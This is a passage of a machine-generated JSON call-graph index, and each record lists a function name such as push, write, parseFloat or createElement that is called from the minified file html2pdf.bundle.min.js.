"static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "genIds_r"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderRoot"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObjectDeferred"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "genIds_r"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "objStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "objEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "objStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "count_r"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getPageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "line"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "objEnd"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "renderItems"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pdfEscape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "count_r"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "flush"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arrayBufferToBinaryString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unshift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBufferView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodePixels"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBufferView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arrayBufferToBinaryString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBuffer"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArrayBufferView"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "arrayBufferToBinaryString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createImageInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodeAndBlitFrameRGBA"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCharSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCharSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "widthOfString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "map"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFont"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getFontSize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getCharSpace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "file"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "existsFileInVFS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setAttribute"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "close"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getElementsByTagName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "canvg"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "addImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getNumberOfPages"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "keys"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unescape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unescape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unescape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unescape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unescape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "newObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "subscribe"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "write"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "match"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "decodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "encodeURIComponent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "substring"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "fromCharCode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "append"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getBlob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createElementNS"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "revokeObjectURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "split"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createObjectURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "setTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "dispatchEvent"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "readAsDataURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "createObjectURL"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "open"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "msSaveOrOpenBlob"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "frameInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "frameInfo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "log"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "undefined"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "unescape"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/html2pdf.bundle.min.js", "target": "getTime"}, {"confidence": "EXTRACTED", "relation": "calls", "source": 